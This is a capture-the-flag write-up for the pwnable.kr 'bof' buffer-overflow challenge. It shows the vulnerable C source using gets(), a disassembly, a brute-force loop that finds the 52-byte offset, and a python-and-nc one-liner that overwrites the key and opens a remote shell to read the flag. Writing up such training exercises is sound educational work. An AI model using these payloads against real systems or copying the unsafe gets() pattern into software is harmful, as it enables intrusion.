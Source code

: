 ## Question

> Nana told me that buffer overflow is one of the most common software vulnerability.
>
> Is that true?
> 
> Download : http://pwnable.kr/bin/bof
>
> Download : http://pwnable.kr/bin/bof.c
> 
> Running at : nc pwnable.kr 9000

<button class="section" target="solution" show="Show solution" hide="Hide solution"></button>

<!--sec data-title="Solution" data-id="solution" data-show=false ces-->

### Step 1: What the hell is `nc`?

I had no idea what `nc` was, so I ran `man nc`... Not very helpful:

```
DESCRIPTION
    The nc (or netcat) utility is used for just about anything under the sun
    involving TCP or UDP.  It can open TCP connections, send UDP packets, lis-
    ten on arbitrary TCP and UDP ports, do port scanning, and deal with both
    IPv4 and IPv6.  Unlike telnet(1), nc scripts nicely, and separates error
    messages onto standard error instead of sending them to standard output, as
    telnet(1) does with some.

    Common uses include:

        o   simple TCP proxies
        o   shell-script based HTTP clients and servers
        o   network daemon testing
        o   a SOCKS or HTTP ProxyCommand for ssh(1)
        o   and much, much more
```

OK, so it could be anything??? After running the `nc pwnable.kr 9000`, nothing seem to happen, until you enter something:

```bash
$> nc pwnable.kr 9000
WTF? # This is my input :)
overflow me :
Nah..
```

So I need to enter something, and there must be something running there.

### Step 1.5: See what is inside other files

This is the content of the `bof.c`

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
    char overflowme[32];
    printf("overflow me : ");
    gets(overflowme);       // smash me!
    if(key == 0xcafebabe){
        system("/bin/sh");
    }
    else{
        printf("Nah..\n");
    }
}
int main(int argc, char* argv[]){
    func(0xdeadbeef);
    return 0;
}
```

I am assuming that's the file that is responding to us from the `nc ...`.
And it has abuffer...
That could be overflown...
Nice! :)

Also notice that if we get in the `if` statement, we will have access to the `/bin/sh`.

### Step 2: Get inside the executable!

There is a compiled executable, and after quick look around, it appears to be an ELF file.
Well, that's a bummer, because I cannot run ELF files on my machine + it was compiled on a different one:)):
Also, GDB on OS X is not very useful for the ELF files.

```bash
$> file bof
bof: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, not stripped
$> chmod +x bof
$> ./bof
-bash: ./bof: cannot execute binary file: Exec format error
$> gdb bof
GNU gdb (GDB) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
[...]
"bof": not in executable format: File format not recognized
(gdb) file bof
"bof": not in executable format: File format not recognized
(gdb) exec-file bof
"bof": not in executable format: File format not recognized
(gdb) q
$>
```

Let's try LLDB - If you are not on OS X, [here is the cheat sheet for converting between LLDB and GDB](http://lldb.llvm.org/lldb-gdb.html).

```
$> lldb bof
(lldb) di -n func
bof`func:
bof[0x62c] <+0>:  pushl  %ebp
bof[0x62d] <+1>:  movl   %esp, %ebp
bof[0x62f] <+3>:  subl   $0x48, %esp
bof[0x632] <+6>:  movl   %gs:0x14, %eax
bof[0x638] <+12>: movl   %eax, -0xc(%ebp)
bof[0x63b] <+15>: xorl   %eax, %eax
bof[0x63d] <+17>: movl   $0x78c, (%esp)            ; imm = 0x78C
bof[0x644] <+24>: calll  0x645                     ; <+25>
bof[0x649] <+29>: leal   -0x2c(%ebp), %eax
bof[0x64c] <+32>: movl   %eax, (%esp)
bof[0x64f] <+35>: calll  0x650                     ; <+36>
bof[0x654] <+40>: cmpl   $0xcafebabe, 0x8(%ebp)    ; imm = 0xCAFEBABE
bof[0x65b] <+47>: jne    0x66b                     ; <+63>
bof[0x65d] <+49>: movl   $0x79b, (%esp)            ; imm = 0x79B
bof[0x664] <+56>: calll  0x665                     ; <+57>
bof[0x669] <+61>: jmp    0x677                     ; <+75>
bof[0x66b] <+63>: movl   $0x7a3, (%esp)            ; imm = 0x7A3
bof[0x672] <+70>: calll  0x673                     ; <+71>
bof[0x677] <+75>: movl   -0xc(%ebp), %eax
bof[0x67a] <+78>: xorl   %gs:0x14, %eax
bof[0x681] <+85>: je     0x688                     ; <+92>
bof[0x683] <+87>: calll  0x684                     ; <+88>
bof[0x688] <+92>: leave
bof[0x689] <+93>: retl

(lldb) di -n main
bof`main:
bof[0x68a] <+0>:  pushl  %ebp
bof[0x68b] <+1>:  movl   %esp, %ebp
bof[0x68d] <+3>:  andl   $-0x10, %esp
bof[0x690] <+6>:  subl   $0x10, %esp
bof[0x693] <+9>:  movl   $0xdeadbeef, (%esp)       ; imm = 0xDEADBEEF
bof[0x69a] <+16>: calll  0x62c                     ; func
bof[0x69f] <+21>: movl   $0x0, %eax
bof[0x6a4] <+26>: leave
bof[0x6a5] <+27>: retl

(lldb) 
```

Note that the `0xCAFEBABE` and `0xDEADBEEF` are written to some addresses. 
We probably need to change one of them.
However, I couldn't get the file to run on my OS X, and I was too lazy to get the virtual machine, and I am bad at LLDB/GDM/R2, so we will do the bruteforce approach :)


### Step 3: Get the offset!

We will flood the buffer with this string:

```python
python -c "print 'Z'*n + '\xbe\xba\xfe\xca\n'"
```

where `n>32` -- and we will see what the reponse would be. 
Because our assumption is that the program will run the `/bin/sh`, we can run `echo` on it to indicate that we found a right offset :)))


```bash
for i in `seq 33 100`; do
    echo =====$i======
    (python -c "print 'Z'*$i + '\xbe\xba\xfe\xca\n'"; sleep 1; echo "echo STAAAHHHP") | nc pwnable.kr 9000;
done
```

After 10-15 seconds, results is:

```
[...]
*** stack smashing detected ***: /home/bof/bof terminated
=====50======
*** stack smashing detected ***: /home/bof/bof terminated
=====51======
*** stack smashing detected ***: /home/bof/bof terminated
=====52======
STAAAHHHP
*** stack smashing detected ***: /home/bof/bof terminated
=====53======
*** stack smashing detected ***: /home/bof/bof terminated
=====54======
*** stack smashing detected ***: /home/bof/bof terminated
^C
```

Now we know that the offset is 52! :)))

### Step 4: Grab the flag

Now use the offset and `cat -` to access the shell

```bash
$> (python -c "print 'Z'*52 + '\xbe\xba\xfe\xca\n'"; cat -) | nc pwnable.kr 9000
ls # This is my input -- there is no prompt
bof
bof.c
flag
log
super.pl
cat flag # This is my input -- there is no prompt
daddy, I just pwned a buFFer :)
exit # This is my input -- there is no prompt
*** stack smashing detected ***: /home/bof/bof terminated

```

### Flag

`daddy, I just pwned a buFFer :)`
<!--endsec-->


